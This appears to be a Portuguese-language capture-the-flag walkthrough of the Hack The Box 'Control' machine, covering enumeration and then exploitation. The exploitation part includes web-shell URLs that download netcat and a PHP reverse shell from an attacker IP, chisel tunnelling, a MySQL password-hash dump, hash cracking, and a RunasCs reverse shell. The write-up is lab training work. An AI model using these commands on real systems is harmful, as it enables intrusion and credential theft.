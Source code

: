## Enumeration

### nmap_enum


```
sudo nmap_enum control.htb | tee nmap_output.txt
```

![[../../../media/Pasted image 20240601174603.png]]

### nmap full tcp scan

```
sudo -sS -p- --max-retries 0 -Pn -T5 control.htb
```

![[../../../media/Pasted image 20240601174420.png]]

Entao temos 
- [ ] HTTP
- [x] RPC
- [x] Mysql


### UDP scan

![[../../../media/Pasted image 20240601170822.png]]

### RPC

```
rpcclient -U 'guest' -N 10.10.10.167

rpcclient -U '' -N 10.10.10.167
```

![[../../../media/Pasted image 20240601174954.png]]

### mysql

```
nmap -Pn -sV -p 3306 --script="banner,(mysql* or ssl*) and not (brute or broadcast or dos or external or fuzzer)" -oN "tcp_3306_mysql_nmap.txt" control.htb
```

![[../../../media/Pasted image 20240601183137.png]]

### HTTP


Headers

![[../../../media/Pasted image 20240601174734.png]]

Search for CVE

```
searchsploit fidelity
```

![[../../../media/Pasted image 20240601171049.png]]

```
searchsploit PHP 7.3.7
```
![[../../../media/Pasted image 20240601175248.png]]

URL Brute Force

```
feroxbuster -u http://control.htb -w /usr/share/seclists/Discovery/Web-Content/common.txt -x "php,txt,html"
```

Verificar os cabecalhos da pagina:

```
curl -v http://control.htb -H "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0" -o /dev/null
```

![[../../../media/Pasted image 20240601182612.png]]

Verificar links escondidos:

```
urlExtract -r 4 http://control.htb
```

![[../../../media/Pasted image 20240601182706.png]]

Enumeracao de subdominios e virtual hosts:

```
ffuf -c -ic -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.control.htb" -H "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0" -u http://control.htb -fw 157
```

![[../../../media/Pasted image 20240601183544.png]]
scanning

```
nikto -host http://control.htb -T x 6 -useragent "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0" | tee nikto_output.txt
```

![[../../../media/Pasted image 20240601183701.png]]

Fuzzing de parametros:

```
seq 1 1000 | ffuf -u http://control.htb/view_product.php?FUZZ=ID -w -:ID -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -fs 1339 -x http://127.0.0.1:8080 -mode pitchfork
```

![[../../../media/Pasted image 20240601204949.png]]

![[../../../media/Pasted image 20240601205029.png]]

## Exploitation

Payloads que testei:

```
http://control.htb/backdoor.php?cmd=certutil%20-urlcache%20-f%20http://10.10.14.10/nc64.exe%20nc.exe

http://control.htb/backdoor.php?cmd=curl%2010.10.14.10/nc64.exe%20-o%20nc.exe
```

![[../../../media/Pasted image 20240601215324.png]]

Alterei o payload e subi este para a maquina alvo:

![[../../../media/Pasted image 20240603115521.png]]


```
http://control.htb/backdoor.php?cmd=curl%2010.10.14.10/new_php_reverse_shell.php%20-o%20p.php
```


```
curl http://control.htb/uploads/p.php
```

![[../../../media/Pasted image 20240603115622.png]]

![[../../../media/Pasted image 20240603115551.png]]

Identifiquei um entry point bem interessante que foi pelo mysql... entao fiz o port forwarding:


```
curl 10.10.14.10/chisel.exe -o c.exe
```
```
c.exe client 10.10.14.10:7777 R:3306:socks
```

![[../../../media/Pasted image 20240603115859.png]]

```
./chisel server -p 7777 --reverse --socks5
```

![[../../../media/Pasted image 20240603115928.png]]

Entao vamos acessar o mysql:

```
proxychains mysql -u manager -h 127.0.0.1 -p
```

![[../../../media/Pasted image 20240603120046.png]]

```
use mysql
show tables;
select * from user;
select concat(User,':',Password) from user;
```


![[../../../media/Pasted image 20240603120210.png]]

Entao aqui ja temos a credencial do usuario hector:

```
john -w=/usr/share/wordlists/rockyou.txt hash_hector.txt
```

![[../../../media/Pasted image 20240603120256.png]]

Utilizando a ferramenta do RunasCs.exe podemos acessar essa maquina com o usuario Hector:

```
ra.exe hector l33th4x0rhector -r 10.10.14.10:8083 cmd
```

![[../../../media/Pasted image 20240603120542.png]]

![[../../../media/Pasted image 20240603120624.png]]

 